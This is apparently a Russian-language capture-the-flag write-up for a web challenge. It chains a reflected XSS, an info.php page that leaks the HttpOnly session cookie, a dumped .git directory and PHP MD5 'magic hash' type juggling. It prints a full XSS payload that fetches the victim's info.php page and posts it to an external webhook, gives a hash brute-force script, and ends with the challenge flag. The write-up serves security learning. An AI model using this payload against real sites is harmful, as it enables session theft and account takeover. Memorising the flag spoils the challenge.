





# Рекрутер | Web

## Информация
> Год назад я завалил ЕГЭ по информатике, после чего мой учитель сказал, что я никогда не устроюсь работать программистом... но ведь я и не программист...

## Файл задания
[task.zip](task.zip)

## Описание
Необходимо реализовать XSS с использованием страницы info.php, а также type juggling

## Решение
На главной странице есть форма отправки резюме. Если попытаться что-то отправить, появится сообщение об ошибке с ссылкой на ТГ-бота, которому необходимо отправить ссылку на резюме. Этот ТГ-бот умеет переходить по ссылкам. Чтобы это проверить, можно отправить ему ссылку на вебхук.



На сайте отсутствует регистрация, и следовательно, нужно каким-то образом получить креденты для входа в аккаунт. Не трудно заметить, что сайт написан на PHP, поэтому, вероятно, сессия пользователя хранится в PHPSESSID. 
Далее можно заметить, что пользовательский ввод в параметре send отображается на странице. Следовательно, на сайте присутствует XSS-уязвимость.



Следовательно, можно украсть сессию у HR'а, отправив ему ссылку, в которой пейлоад будет записан в параметр send. Однако на этом сайте у куки установлен флаг HttpOnly, который не позволяет получить куки с помощью document.cookie. 

Чтобы все-таки получить куки, необходимо воспользоваться страницей info.php, на которой для каждого пользователя выводится множество значений, включая куки.

Итоговый пейлоад выглядит так:
```js
http://qookie.tech:30057/?send=<script>payload="fetch(%27http://qookie.tech:30057/info.php%27).then(resp=>resp.text()).then(data=>fetch(%27https://webhook.site/7e54f652-c2f3-41cd-9353-b1218b08fbce%27,{method:%27POST%27,body:data}))";window.open("http://qookie.tech:30057/?send=<svg%0Conload=eval(name)>",payload);</script>
```


Когда сессия получена, осталось только подменить её и получить доступ к аккаунту.

После входа в аккаунт HR'а нужно принять любого из подавших заявления кандидатов. Также требуется знать секретный код HR'а для этого действия. Следовательно, нужно продолжить анализировать приложение. Первым делом нужно пофаззить директории на сайте.



Можно заметить, что на сайте существует папка .git, в которой существует информация о прошлых коммитах приложения. Необходимо воспользоваться утилитой [GitTools](https://github.com/internetwache/GitTools/tree/master), которая позволяет сдампить всю нужную нам информацию. Далее через эту утилиту можно восстановить несколько прошлых коммитов этого приложения и понять логику проверки секретного кода HR'а.



В глаза бросается уязвимость php type juggling, в которой нам необходимо подобрать такой код, хеш которого должен начинаться на 0e и состоять только из цифр. Это можно сделать на питоне или найти в гугле.

```python
import hashlib

for i in range(0, 1000000000000000):
  string_to_hash = str(i)
  md5_hash = hashlib.md5(string_to_hash.encode()).hexdigest()

  if md5_hash.startswith("0e") and md5_hash[2:].isdigit():
    print(f"Найдено число: {i}, хэш: {string_to_hash}|{md5_hash}")
    break
```

Далее необходимо вставить код и получить флаг.

## Флаг
`NQ20244ca76b6f7f63ab7a3e7491ecc2496f4929348bc67e563d90b89eb32febc8bd59`


